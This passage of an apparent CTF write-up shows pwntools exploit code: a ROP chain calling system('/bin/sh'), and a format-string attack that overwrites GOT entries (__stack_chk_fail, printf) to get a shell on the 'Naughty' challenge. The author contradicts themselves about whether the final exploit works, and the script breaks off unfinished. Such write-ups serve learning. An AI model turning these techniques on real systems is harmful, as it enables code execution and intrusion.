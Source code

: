 ```python
system = libc.sym["system"]
binsh = next(libc.search("/bin/sh"))

payload = "A" * 88
payload += p64(ret) + p64(prdi) + p64(binsh) + p64(system)

r.recv()
r.sendline(payload)

r.interactive()
```

#### Naughty
```
Written by KyleForkBomb

Santa is getting old and can't tell everyone which list they are on anymore. Fortunately, one of his elves wrote a service to do it for him!

nc p1.tjctf.org 8004
```

Ian (imyxh) who I played this ctf with in ihscy mainly solved this challenge and it was an interesting combination of format strings, stack cookie, and __libc_csu_fini. I will explain the overall idea but I did not manage to get my final exploit working. 

The first step is to use format string to overwrite the __libc_csu_fini destructor to main while leaking both a stack address and a libc address. It would look something like this `payload = fmtstr_payload(7, {_libc_csu_fini: main}) + 'mark1 %7$x' + 'mark2 %72$x'`. Then we can `r.recvuntil('mark1 ')` and `r.recvuntil('mark2 ')` to easily access the data leaked by the format string vulnerability. This was a trick I learned after the ctf but could come in very handy in the future. Now unfortunately, destructors only run once which means we do not loop to main infinitely, only once. However, we the information we have leaked, we can abuse the fact that there is a stack cookie. When the stack cookie is overwritten, the stack_chk_fail@GOT function is called. How we can attack this is to first overwrite stack_chk_fail to main then purposefully corrupt the stack cookie so we can loop back around the main. We know our position in the stack so overwriting the stack cookie should be easy after some analysis of the stack. In this same format string, we can overwrite printf to the address of system in libc using the libc leak we obtained earlier. This is the standard technique to get a shell we will pass in `/bin/sh` into the buffer and then when it calls `printf(buff)` it will really be `system(buff)` which will grant us a shell. The following is my exploit which does not work but provides some insight on how to use fmtstr_payload and read the leaks. Note: THIS DOES WORK.
```python
from pwn import *

context.log_level = "debug"
context.terminal = ["tmux", "split", "-h"]

gdbscript="""
b *gets
"""

e = ELF("naughty")
libc = ELF("libc6-i386_2.27-3ubuntu1_amd64.so")

puts_got = e.got["puts"]
stack_chk_fail_got = e.got["__stack_chk_fail"]
printf_got = e.got["printf"]

r = remote("p1.tjctf.org", 8004)
#r = process("./naughty")
#gdb.attach(r, gdbscript = gdbscript)

r.recv()

```